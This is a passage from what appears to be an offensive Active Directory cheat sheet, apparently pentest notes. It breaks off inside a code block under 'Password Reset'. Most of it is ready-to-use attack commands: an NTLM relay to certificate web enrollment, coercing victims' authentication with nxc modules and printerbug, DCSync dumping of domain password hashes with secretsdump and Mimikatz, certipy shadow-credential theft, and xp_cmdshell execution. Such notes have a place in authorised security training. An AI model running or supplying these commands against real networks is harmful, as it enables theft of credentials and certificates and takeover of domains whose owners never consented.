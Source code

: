 NTLM relay attack targeting a HTTP endpoint (*doesn't require to be **enrollable principals***)

1. listen for inbound connections and relay them to the web enrollment
	```bash
	ntlmrelayx -t [CA_URL] --adcs -smb2support --template KerberosAuthentication
	```
	- `CA_URL` -> the certipy output under `Web Enrollment URL`
	- `TEMPLATE` -> also `DomainController` 
2. Wait or make victims authenticate to steal the certificate
	- nxc modules (either or)
		```bash
		nxc smb [DC_IP] [AUTH_STRING] -M [coerce_plus/mssql_coerce] -o LISTENER=[RELAYX_IP]
		```
	- `Printer Spooler` service -> [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
	  ```bash
	  python3 printerbug.py domain/user:"pwd"@[VICTIM_IP] [RELAYX_IP]
		```
			
## DACL Abuse
Follow Bloodhound, depending on what is written on the edges, the exploits differ.
- Search & mark as Owned every user you compromised
- For every user:
	- Check **Outbound Object Controls** 
	- Check All "**Shortest Path Queries**" in Analysis 
	- In Cypher &rarr; Query:
		`MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:[PRIVILEGE]*1..]->(c:Computer) RETURN p2`
		for `[PRIVILEGE]` in: 
		- Winrm: `CanPSRemote`
		- MSSql: `SQLAdmin` &rarr; `enable_xp_cmdshell` &rarr; `xp_cmdshell "[CMD]"` 
		- `CanRDP`
		- `ExecuteDCOM`
		- `AdminTo`
	- Check "CanRDP", "CanPSRemote", "SQLAdmin", "DCOM", "AdminTo" in Edges Section, these users have lateral movement privileges
- For every interesting control / path you find, click on the edge and follow the exploitation
#### AllExtendedRights / DS-Replication-Get-Changes{-In-Filtered-Set}
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol` to retrieve NTLM hashes.
- **Domain**
    - From Linux:
	    ```bash
	    secretsdump.py DOMAIN/usr:pwd@ip
	    ```
	    - `-just-dc-user [DOMAIN_BASE]/Administrator` to extract data for a user
    - From Windows (Mimikatz.exe):
      ```cmd
      privilege::debug
		lsadump::dcsync /dc:[DC_FQDN] /domain:[DOMAIN] /user:[DOMAIN_BASE_NAME]\Administrator
      ```
#### GenericAll / GenericWrite
- **Group**
	&rarr; AddMember / AddSelf
- **Accounts**
	- Shadow Hash Steal
	  ```bash
     certipy-ad shadow auto -u [USER] -p [PASS] -account "[VICTIM]" -dc-ip [DC_IP]
	    ```
	- Password Reset
		```bash